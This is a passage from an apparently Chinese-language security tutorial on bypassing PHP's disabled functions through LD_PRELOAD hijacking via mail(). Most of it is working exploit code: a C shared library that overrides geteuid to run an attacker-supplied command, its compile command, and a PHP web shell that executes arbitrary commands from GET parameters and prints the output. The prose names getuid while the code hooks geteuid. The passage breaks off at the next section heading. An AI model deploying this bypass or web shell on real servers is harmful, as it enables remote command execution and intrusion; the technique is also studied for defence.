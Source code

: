 ![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54Tica43LSHVty1URiaAOYVkkSAVkoTM6aa3hXyibx706fKnttzbueTZpQCpOHNVq6FlAHqe7y3rUpRw/640?wx_fmt=png)

2.error_log() 和 mail() 函数没有全被禁用。

**利用原理：**

php 的 mail() 函数在执行过程中会默认调用系统程序 / usr/sbin/sendmail、/usr/sbin/postdrop, 而 / usr/sbin/sendmail 会调用 getuid()。那么我们通过 LD_PRELOAD 劫持 getuid 函数，然后调用 mail 函数执行我们生成的恶意函数库中的 getuid 函数。

重写的 getuid() 函数 test.c。

```
#include <stdlib.h>  
#include <stdio.h>  
#include <string.h>  

int geteuid() {  
const char* cmdline = getenv("EVIL_CMDLINE");  
if (getenv("LD_PRELOAD") == NULL) { return 0; }  
unsetenv("LD_PRELOAD");  
system(cmdline);  
}
```

用 gcc -shared -fPIC test.c -o test.so 将 test.c 编译为动态链接库 test.so。

gituid.php

这里用了 putenv() 函数将 test.so 加入环境变量。

```
<?php  
echo "<p> <b>example</b>:
http://test.com/exp.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/html/exp.so
</p>";  
$cmd = $_GET["cmd"];  
$out_path = $_GET["outpath"];  
$evil_cmdline = $cmd . " > " . $out_path . " 2>&1";  
echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";  
putenv("EVIL_CMDLINE=" . $evil_cmdline);  
$so_path = $_GET["sopath"];  
putenv("LD_PRELOAD=" . $so_path);  
mail("", "", "", "");  
echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path))
. "</p>";  
unlink($out_path);  
?>
```

**利用效果：**

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54Tica43LSHVty1URiaAOYVkkSSwharia9NJh5UzYwf0GqbIp4BpniciayribweemECicAzzabRnKzcLpz9A/640?wx_fmt=png)

### 3.2 劫持启动函数

**环境要求**：
